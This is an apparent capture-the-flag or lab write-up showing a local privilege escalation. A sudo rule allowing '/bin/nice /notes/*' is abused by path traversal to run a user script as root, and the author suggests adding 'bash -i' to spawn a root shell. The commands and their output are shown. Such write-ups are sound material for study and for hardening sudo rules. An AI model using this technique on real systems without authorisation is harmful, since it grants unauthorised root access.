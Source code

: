 Interesting, after reading a little bit about sudo and perms,

it looks like this:

User webadmin may run the following commands on serv:

    (ALL : ALL) /bin/nice /notes/*

means I can only run /bin/nice within the notes directory.

lets do a sanity check

````shell

webadmin@serv:/notes$ sudo /bin/nice /notes/id.sh

uid=0(root) gid=0(root) groups=0(root)

````

Yup looks like it works. Can we trick it into thinking we are using /notes/ directory but point somewhere else?

I wrote a quick bash script to test if we are

1) running the file and

2) using root perms with it.

````

echo "TEST"

whoami

````

Save the file to our home dir and run it via nice

````shell

webadmin@serv:~$ sudo /bin/nice /notes/../home/webadmin/test.sh

TEST

root

webadmin@serv:~$

````

looks like we are using root to run the file! We can edit the script to spawn a shell by adding

````shell

bash -i

````

to the end of it.

